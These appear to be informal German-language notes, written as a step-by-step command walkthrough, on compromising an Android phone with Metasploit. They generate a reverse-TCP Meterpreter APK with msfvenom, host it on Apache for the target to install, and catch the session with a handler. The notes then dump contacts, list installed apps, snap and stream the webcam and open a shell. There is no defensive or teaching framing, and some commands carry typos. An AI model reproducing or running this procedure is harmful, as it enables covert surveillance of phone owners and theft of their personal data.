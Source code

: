 # Android MSFVenom

> msfvenom -p android/meterpreter/reverse_tcp LHOST=(LHost) LPORT=4444 R > /war/www/html/androidApp.apk

Adroid Applikation wird erstellt (Output von msfvenom wird un die App geschrieben).
Über diese Applikation läuft eine Reverse shell, mit welcher er den Zugriff auf Android bekommt.
LHost ist Listener (IP-Adresse der Kali Maschine); LPort ist Port auf welchen gehorcht wird
> service apache2 status

apache2 hosting Files
> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp

generates listener
> set LHOST (LHOST)
> exploit

System is hyjacked
> background


On Android device in Browser:
http://LHSOTip:8000/androidApp.apk
Hier kann man das File herunterladen und installieren.
Wenn User auf MainActivity Android-App klickt ist Session erstellt.

> sessions

IP-Adresse des Android Devices braucht man nicht. Diese wird automatisch geliefert. (über Sessions)
> sessions -i 1

Enters Session
Hier drinnen können viel(fast alle möglichen) Informationen über das Device herausgefunden werden.
> app_list

Listet alle Apps, welche installiert sind auf
> dump_contacts

Erstellt Textfile mit allen Kontakten.
> webcam_list
> webcam_snap

... selbsterklärend
> webcam_stream -d (Duration in Sekunden) -i (Index of Stream)

dies erstellt html file, auf welchem der Stream läuft
> shell
> ... 

# Geolocate

> use exploit/multi/handler

> set payload android/meterpreter/reverse_tcp

> set lhost 192.168.0.132

> show options 

> exploit 

> webcam_steam -h // get help

> webcam_list

> webcam_stream -d 5 -i 1 // d (duration aufnahmezeit/ index of webcam)

> cd /home/kali/

> msfconsole

> [alles wie vorher]

> webcam_stream -d 5 -i 1 

> cp [daten] /var/www/html 